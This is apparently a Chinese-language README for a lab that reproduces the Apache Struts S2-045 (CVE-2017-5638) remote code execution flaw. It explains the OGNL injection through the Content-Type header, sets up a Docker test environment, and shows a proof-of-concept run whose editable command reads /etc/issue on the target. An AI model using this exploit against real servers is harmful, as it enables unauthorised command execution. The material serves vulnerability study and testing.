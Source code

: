 ##  S2-045（CVE-2017-5638）
https://cwiki.apache.org/confluence/display/WW/Security+Bulletins

受影响：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

RCE远程代码执行漏洞，基于Jakarta Multipart解析器进行文件上传时，利用漏洞可进行远程代码执行。

由于当content-type中出现”multipart/form_data”时，会被认为有文件上传，从而调用struts2默认的上传文件组件Jakarta，通过组件漏洞载入OGNL代码并执行，从而达到远程调用的目的。
## 测试环境搭建
```
docker-compose build
docker-compose up -d
```


## POC
s2-045-poc.py 中修改cmd值，执行任意命令

(#cmd='echo struts2-045;cat /etc/issue')

```
 python s2-045-poc.py http://10.160.11.191:8080/
[vulnerability exist] http://10.160.11.191:8080/
struts2-045
Debian GNU/Linux 9 \n \l

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```

## 参考：
* Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web应用的开源MVC框架。

* https://struts.apache.org/docs/security-bulletins.html

* http://www.freebuf.com/vuls/128668.html


